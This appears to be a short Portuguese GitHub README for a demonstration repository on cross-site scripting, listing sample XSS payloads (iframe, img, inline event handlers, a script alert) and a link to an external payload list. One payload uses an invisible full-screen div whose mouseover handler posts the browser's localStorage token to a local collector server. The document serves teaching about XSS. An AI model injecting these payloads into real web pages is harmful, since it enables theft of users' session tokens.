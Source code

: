 # XSS-Exemplo
Exemplo de funmcionamento do ataque XSS

[Site do exemplo] (xss-exemplo.netlify.app)

# Video explicando os conceitos

[![Watch the video](https://img.youtube.com/vi/HQUCYEr50wc/maxresdefault.jpg)](https://www.youtube.com/watch?v=HQUCYEr50wc)

# Iframe
`<iframe src="https://www.cristianoprogramador.com/">`

# Img
`<img src="1https://www.cristianoprogramador.com/img/profile.jpg">`

# Button
`<button onclick="Alert Hackeado">Click me</button>`

# On mouse over
`<div onmouseover="alert('injetado!')" style="width:100vw; height: 100vh; color:transparent"> </div>`

# Script
`<script>alert('123')</script>`
 
# Request HTTP
`<div onmouseover="axios.post('http://localhost:3001/', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`

# Outros exeplos de como fazer esse ataque
[XSS Payload List](https://github.com/payloadbox/xss-payload-list)
